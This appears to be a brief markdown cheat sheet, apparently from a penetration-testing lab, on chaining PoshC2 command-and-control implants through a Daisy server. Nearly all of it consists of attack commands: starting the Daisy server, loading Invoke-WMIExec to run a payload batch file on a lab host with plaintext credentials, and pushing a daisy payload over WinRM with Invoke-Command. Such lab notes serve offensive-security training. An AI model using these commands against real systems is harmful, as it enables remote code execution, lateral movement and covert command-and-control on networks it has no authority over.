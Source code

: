 ### Creating daisy chain using PoshC2
#### Starting a Daisy server
- ```startdaisy```
#### Invoking Daisy payload via WMI
- ```pslo Invoke-wmiexec.ps1```
- ```sharpps Invoke-WMIExec -user webadmin.ind01 -pass P@ssw0rd1 -target 192.168.3.18 -Command "/var/poshc2/ptadlab/payloads/testpayload.bat“```
#### Invoking Daisy payload via WinRM
- ```sharpps Invoke-Command -ScriptBlock {<daisy payload>} -computer ptadlabwin8-64```
